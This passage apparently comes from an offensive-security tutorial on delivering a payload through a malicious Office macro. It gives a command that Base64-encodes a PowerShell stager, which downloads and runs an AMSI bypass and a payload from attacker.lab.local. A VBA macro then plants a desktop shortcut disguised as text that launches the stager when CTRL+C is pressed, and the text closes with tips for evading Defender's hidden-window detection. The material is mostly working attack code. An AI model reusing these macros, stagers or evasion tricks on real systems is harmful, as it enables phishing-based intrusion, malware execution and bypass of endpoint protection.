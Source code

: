 Finally, we include an AMSI bypass in an arbitrary web directory such as `/root/demo/www/stager`, save it to a file called `bypass`, start a python3 `http.server` on port 80 and make our own Base64 encoded stager which will download & execute the bypass as well as the payload:
```
# echo "iEx(new-object net.webclient).downloadString('http://attacker.lab.local:80/bypass'); iEx(new-object net.webclient).downloadString('http://attacker.lab.local:80/stager');" | iconv -f ASCII -t UTF-16LE | base64 -w0
aQBFAHgAKABuAGUAdwAtAG8AYgBqAGUAYwB0ACAAbgBlAHQALgB3AGUAYgBjAGwAaQBlAG4AdAApAC4AZABvAHcAbgBsAG8AYQBkAFMAdAByAGkAbgBnACgAJwBoAHQAdABwADoALwAvAGEAdAB0AGEAYwBrAGUAcgAuAGwAYQBiAC4AbABvAGMAYQBsADoAOAAwAC8AYgB5AHAAYQBzAHMAJwApADsAIABpAEUAeAAoAG4AZQB3AC0AbwBiAGoAZQBjAHQAIABuAGUAdAAuAHcAZQBiAGMAbABpAGUAbgB0ACkALgBkAG8AdwBuAGwAbwBhAGQAUwB0AHIAaQBuAGcAKAAnAGgAdAB0AHAAOgAvAC8AYQB0AHQAYQBjAGsAZQByAC4AbABhAGIALgBsAG8AYwBhAGwAOgA4ADAALwBzAHQAYQBnAGUAcgAnACkAOwAKAA==
```


With everything prepared we can go ahead and craft a malicious Office document with the following macro:
```vb
Set wshell = CreateObject("WScript.Shell")

Dim path
path = wshell.SpecialFolders("Desktop") & "/FakeText.lnk"

Set shortcut              = wshell.CreateShortcut(path)
shortcut.IconLocation     = "C:\Windows\System32\shell32.dll,70"
shortcut.WindowStyle      = 7
shortcut.TargetPath       = "powershell.exe"
shortcut.Arguments        = "-nop -ep bypass -enc aQBFAHgAKABuAGUAdwAtAG8AYgBqAGUAYwB0ACAAbgBlAHQALgB3AGUAYgBjAGwAaQBlAG4AdAApAC4AZABvAHcAbgBsAG8AYQBkAFMAdAByAGkAbgBnACgAJwBoAHQAdABwADoALwAvAGEAdAB0AGEAYwBrAGUAcgAuAGwAYQBiAC4AbABvAGMAYQBsADoAOAAwAC8AYgB5AHAAYQBzAHMAJwApADsAIABpAEUAeAAoAG4AZQB3AC0AbwBiAGoAZQBjAHQAIABuAGUAdAAuAHcAZQBiAGMAbABpAGUAbgB0ACkALgBkAG8AdwBuAGwAbwBhAGQAUwB0AHIAaQBuAGcAKAAnAGgAdAB0AHAAOgAvAC8AYQB0AHQAYQBjAGsAZQByAC4AbABhAGIALgBsAG8AYwBhAGwAOgA4ADAALwBzAHQAYQBnAGUAcgAnACkAOwAKAA"
shortcut.WorkingDirectory = "C:"
shortcut.HotKey           = "CTRL+C"
shortcut.Description      = "Nope, not malicious"
shortcut.Save

' Hide the shortcut if need be. I'm keeping it visible for demonstration purposes. 
```

Before you deploy the document, note that based on my limited testing, Defender will usually flag any shortcut as malicious when the initial PowerShell argument contains a hidden window attribute (`-w hidden`). If you use a framework which doesn't hide the window by default, you can bypass this restriction by making a "nested" PowerShell stager which looks like the following: 

```powershell
powershell.exe -enc <base64 encoded: powershell.exe -w hidden -c "iex(...)">
```  

Alternatively, it is also possible to externally stage the PowerShell process which is responsible for hiding the window. It's not ideal, but it gets the job done. Definitely a lot better than having a minimized PowerShell window which the user can open and close at any time.

### Putting It All Together
